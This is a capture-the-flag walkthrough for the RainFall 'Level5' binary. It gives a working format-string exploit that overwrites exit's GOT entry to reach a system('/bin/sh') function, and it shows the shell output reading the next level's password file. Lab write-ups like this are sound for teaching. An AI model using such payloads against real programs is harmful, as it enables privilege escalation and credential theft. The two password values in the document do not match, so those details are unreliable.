 # **Level5**

## **Analysis**

**In `main` :**

- call to function `n()`

**In `n()` :**

- `fgets` on `stdin` to a string `format` with a limited size of `0x200` characters
- and used in `printf(format)` which is a vulnerability, referring to printf man
 ```
    Code such as printf(foo); often indicates a bug, since foo may
    contain a % character.  If foo comes from untrusted user input,
    it may contain %n, causing the printf() call to write to memory
    and creating a security hole.
 ```
- terminated by an `exit()`

We also have a function `o()` never used

**In `o()` :**
- it calls a `system("/bin/sh")`
- terminated by an `exit()`

`o()` adress : 0x080484a4

`exit()` adress: 0x8049838
```
(gdb) info function
All defined functions:
...
0x080483d0  exit
0x080483d0  exit@plt
...
0x080484a4  o
0x080484c2  n
0x08048504  main
...

(gdb) disas exit
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:     jmp    *0x8049838
   0x080483d6 <+6>:     push   $0x28
   0x080483db <+11>:    jmp    0x8048370
```

___

## **Exploit**

If we try to store a buffer `ABCD`, its done on the fourth position
```
level5@RainFall:~$ python -c 'print "ABCD" + " %4$x"' | ./level5
ABCD 44434241
```

But we cannot use ret because of the `exit()`
We'll change the adress ont he GOT (Global Offset Table) to point to `o()` adress

> 0x8049838 [exit] -> 0x080484a4 [o()]

```
level5@RainFall:~$ python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"' > /tmp/level5 && cat /tmp/level5 - | ./level5
...
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```

___

*Password: 0f99ba5e9c446258a69b290407a6c60859e9c2d25b26575cafc9ae6d75e9456a*